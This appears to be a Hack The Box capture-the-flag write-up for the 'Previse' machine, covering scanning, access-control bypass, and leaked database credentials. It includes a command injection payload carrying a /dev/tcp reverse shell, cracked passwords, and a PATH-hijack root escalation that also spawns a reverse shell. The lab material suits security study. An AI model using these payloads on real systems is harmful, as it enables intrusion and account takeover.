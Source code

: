 # Previse notes
https://app.hackthebox.eu/machines/Previse

### Information Gathering
Apache web server
SSH

### Service Enumeration
Nmap scan results:
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbdbnxQupSPdfuEywpVV7Wp3dHqctX3U+bBa/UyMNxMjkPO+rL5E6ZTAcnoaOJ7SK8Mx1xWik7t78Q0e16QHaz3vk2AgtklyB+KtlH4RWMBEaZVEAfqXRG43FrvYgZe7WitZINAo6kegUbBZVxbCIcUM779/q+i+gXtBJiEdOOfZCaUtB0m6MlwE2H2SeID06g3DC54/VSvwHigQgQ1b7CNgQOslbQ78FbhI+k9kT2gYslacuTwQhacntIh2XFo0YtfY+dySOmi3CXFrNlbUc2puFqtlvBm3TxjzRTxAImBdspggrqXHoOPYf2DBQUMslV9prdyI6kfz9jUFu2P1Dd
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCnDbkb4wzeF+aiHLOs5KNLPZhGOzgPwRSQ3VHK7vi4rH60g/RsecRusTkpq48Pln1iTYQt/turjw3lb0SfEK/4=
|   256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIICTOv+Redwjirw6cPpkc/d3Fzz4iRB3lCRfZpZ7irps
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B21DD667DF8D81CAE6DD1374DD548004
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Apache Server
Gobuster results:
```
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/download.php         (Status: 302) [Size: 0] [--> login.php]   
/login.php            (Status: 200) [Size: 2224]                
/files.php            (Status: 302) [Size: 6084] [--> login.php]
/header.php           (Status: 200) [Size: 980]                 
/nav.php              (Status: 200) [Size: 1248]                
/footer.php           (Status: 200) [Size: 217]                 
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php           (Status: 302) [Size: 2970] [--> login.php]              
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/] 
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/config.php           (Status: 200) [Size: 0]                                 
/logs.php             (Status: 302) [Size: 0] [--> login.php]
/file_logs.php
```
/files.php has interesting html with possible username: newguy
/accounts.php - used to create new users * we can see only admins allowed

Added user with python requests:
```python
import requests
url = 'http://10.10.11.104/accounts.php'
data = {'username':'cornbread','password':'letmein','confirm':'letmein'}
r = requests.post(url, allow_redirects=False, data=data)
print(r.content)
```
We can now download siteBackup.zip and look through the source code.
Contents of /siteBackup.zip/config.php:
```php
	$host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
```

### Initial Exploitation
Vulnerability Explanation:
logs.php takes the post parameter 'delim' and uses it as an argument in a command run by system. By changing altering delim we can send ourselves a reverse shell. Below is what I swapped out for `delim=comma` in burp.


Proof of Concept:
```bash
delim=comma & bash -c 'exec bash -i &>/dev/tcp/<attacker IP>/4444 <&1'
```

#### Pivoting
MySQL shows hashed passwords running m4lwhere's hashed password through hashcat with rockyou.txt gives us his password "ilovecody112235!". We also recover admin2's password "123456".
```
mysql> select * from accounts;
+----+-----------+------------------------------------+---------------------+
| id | username  | password                           | created_at          |
+----+-----------+------------------------------------+---------------------+
|  1 | m4lwhere  | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | cornbread | $1$🧂llol$aSq5B16FXsXeMAF6OIBO6/ | 2021-08-30 22:58:14 |
|  3 | admin2    | $1$🧂llol$wzYjWk/p5usz8BzxvPrXs1 | 2021-08-30 23:12:42 |
+----+-----------+------------------------------------+---------------------+
```






### Privilege Escalation
Vulnerability Explanation:
There is a shell script that can be run as root that I abused. The file located at `/opt/scripts/access_backup.sh` runs gzip without absolute path. So I can create a file named gzip and modify my environmental variables to have access_backup.sh run my gzip as root.

Exploit Code:
```bash
cd /tmp
echo "bash -c 'exec bash -i &>/dev/tcp/<attacker IP>/9001 <&1'" > gzip
export PATH=/tmp:$PATH
```
Start netcat listener on attacker machine.
```bash
sudo /opt/scripts/access_backup.sh
```
